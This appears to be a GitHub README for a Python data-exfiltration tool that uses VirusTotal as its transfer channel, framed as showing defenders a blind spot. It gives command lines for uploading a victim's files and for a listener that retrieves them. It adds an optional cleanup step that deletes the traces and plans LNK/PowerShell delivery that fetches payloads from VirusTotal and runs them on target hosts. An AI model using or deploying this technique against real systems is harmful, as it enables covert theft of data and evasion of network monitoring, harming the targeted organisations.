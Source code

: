 # VT-Not-So-Pretty

Python data exfiltration tool that uses VirusTotal as its infrastructure.

As defenders we are often overwhelmed by the sheer amount of network traffic in a network and overlook traffic made to well known trusted sites without any known suspicious functionalities (like file/software sharing sites). And what other site is more well known and trusted to defenders than virustotal.  

My main goal was to use VirusTotal upload and download functionalities to transfer files back and forth without the need to use our own infrastructure, and breaking the diamond model from the defender's perspective. 

## Usage Example
The tool is pretty simple just provide it a path, your VT API key, and a hash of a file (already uploaded to VT) to which you want the hashes of the files exfiltrated to be written, so they can be downloaded later.    

```
python .\Vt-Not-So-Pretty.py -f "PATH_TO_EXFIL" -k YOUR_API_KEY -c HASH_TO_COMMENT_ON
```
Alternatively you can enter this when prompted:

![Vy-Not-So-Pretty](https://github.com/user-attachments/assets/780fec17-50da-4aef-a91e-d3682be5c573)


After done uploading the files to VT all you have to do is just run listener as follows:

```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON"
```
Or you can also enter this when prompted:

![image](https://github.com/user-attachments/assets/9b8454a3-d486-4ef8-866d-a1b53a21c081)

## Optional Cleanup
If you wish to delete the comments after file download (to clean up as much as possible), all you have to do is provide the listener with the API key used by the first tool as follows:
```
python VT-Listener.py -f C:\Path\to\save\files\to -k "YOUR_PREMIUM_API_KEY" -c "HASH_TO_CHECK_COMMENTS_ON -d "THE_API_KEY_USED_4_UPLOAD"
```

## Main Drawbacks:

1. The file sizes to transfer are limited to 650 MB per file - This could be solved with proper file splitting and compression.

2. Premium Subscription - In order to download files from VT, a premium subscription is needed, which can be quite expensive.

## Disclaimer

This is an ongoing project, and in the future, I am planning to add more tools to it, for other uses as well, like for delivery using LNK files that contain a powershell code that download (or read in memory) file from VT and runs them on the target host.

## Upcoming Updates:
Changing the endpoint to upload files larger than 35 MB.

